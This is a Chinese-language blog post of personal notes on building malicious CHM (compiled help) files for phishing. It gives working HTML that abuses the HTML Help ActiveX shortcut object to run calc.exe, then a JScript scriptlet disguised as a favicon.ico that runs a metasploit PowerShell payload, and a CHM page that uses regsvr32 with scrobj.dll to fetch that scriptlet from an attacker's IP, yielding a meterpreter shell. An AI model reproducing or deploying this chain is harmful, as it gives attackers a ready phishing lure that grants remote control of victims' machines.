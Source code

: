 ```yaml
---
title: Chm fishing
date: 2019-01-27 11:50:03
tags: Writing
---
```

## 前言 ##
今天早上看到一个chm钓鱼的恶意事件，一时之间感觉蛮有趣。然后上google操作了一波发现不少这种操作。后面随手打开撸了一波，这里做个笔记
![58c5b28e07dc4395998e1d3a47f376f5.jpeg](http://5b0988e595225.cdn.sohucs.com/images/20181212/58c5b28e07dc4395998e1d3a47f376f5.jpeg)

资料来源：
[高级组合技打造“完美” 捆绑后门 - Evi1cg](https://wooyun.js.org/drops/%E9%AB%98%E7%BA%A7%E7%BB%84%E5%90%88%E6%8A%80%E6%89%93%E9%80%A0%E2%80%9C%E5%AE%8C%E7%BE%8E%E2%80%9D%20%E6%8D%86%E7%BB%91%E5%90%8E%E9%97%A8.html)

[CHM钓鱼 \| MottoIN](http://www.mottoin.com/tech/113429.html)
## 正文 ##
首先下载Easy CHM
![kucCzd.png](https://s2.ax1x.com/2019/01/27/kucCzd.png)

然后创建一个文件夹然后里面放一个html， 和几个文件夹
![kucmFS.png](https://s2.ax1x.com/2019/01/27/kucmFS.png)

calc弹弹弹测试，将以下html写入
```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec 
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
然后进行编译，在打开编译后的chm会发现能弹出一个calc
![kucJoT.png](https://s2.ax1x.com/2019/01/27/kucJoT.png)

![kuc8e0.md.png](https://s2.ax1x.com/2019/01/27/kuc8e0.md.png)

<b>meterpreter反弹测试</b>
是否会被杀软拦截：是
这里我使用venom生成payload
项目地址：[GitHub - r00t-3xp10it/venom: venom (metasploit) shellcode generator/compiler/listener](https://github.com/r00t-3xp10it/venom)
选择好powershell的选项的payload获取exp，然后在攻击机新建一个fanvcio.ico写入如下：

![kuc4OI.md.png](https://s2.ax1x.com/2019/01/27/kuc4OI.md.png)

```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <!-- Learn from Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
            ps1  = "你的exp";
            $shell=new ActiveXObject("WScript.Shell")
            $shell.Run(ps1,0,true);
           
 
        ]]>
</script>
</registration>
</scriptlet>
```
![kucWSH.md.png](https://s2.ax1x.com/2019/01/27/kucWSH.md.png)
然后在html写入如下
```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec 
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',regsvr32.exe,/u /n /s /i:http://IP/favicon.ico scrobj.dll'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
然后在用Easy CHM编译，在打开编译后的chm就能获取到一个meterpreter
![kucbtS.png](https://s2.ax1x.com/2019/01/27/kucbtS.png)

![kucvXn.png](https://s2.ax1x.com/2019/01/27/kucvXn.png)

转载请声明：转自422926799.github.io